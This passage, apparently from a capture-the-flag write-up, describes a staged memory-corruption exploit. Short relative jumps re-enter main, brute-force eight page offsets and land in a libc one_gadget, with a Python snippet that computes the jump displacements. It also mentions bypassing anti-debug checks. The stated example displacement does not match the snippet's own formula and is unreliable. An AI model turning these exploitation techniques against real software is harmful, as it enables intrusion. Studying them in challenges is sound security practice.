For offset `0x1001000`, the displacement is `0x10573EE`, and so on. In Python:

```python
for offset in [0x1000000 + i*0x1000 for i in range(8)]:
    rel = 0x583f3 + offset - 5
    second = b"\xe9" + p32(rel, signed=True)
```

# Solution

The full exploit logic can be summarized in four steps:

1. **First stage**: Send a 5-byte `call rel32` back to `main`. This re-enters the program and triggers the second `mmap` with `MAP_FIXED`.
2. **Second stage**: The binary maps `page2` at `libc_base - offset`, where `offset` is one of 8 values derived from `getpid()`.
3. **Brute-force offsets**: Try each of the 8 possible displacements from `page2` to the `one_gadget` at `0x583f3`. At most 8 attempts are needed.
4. **Third stage**: Send a second 5-byte `jmp rel32` from `page2` into the libc `one_gadget` at `0x583f3`.

Key implementation details:
- The first jump offset is **constant** regardless of ASLR because both `main` and `page1` shift together with the binary base.
- The second jump offset requires a **minimal brute-force** (≤8 attempts) because `page2` is placed at one of 8 offsets below libc.
- Using `call` for the first stage (instead of `jmp`) pushes a return address that preserves 16-byte stack alignment, satisfying the `posix_spawn` gadget's `rsp & 0xf == 0` constraint.
- Anti-debug checks (`TracerPid`, timing, `LD_PRELOAD`) must be bypassed or accounted for in automated exploits.
- The entire exploit requires at most 8 attempts due to the randomized `page2` offset, making it fair but not fully deterministic.
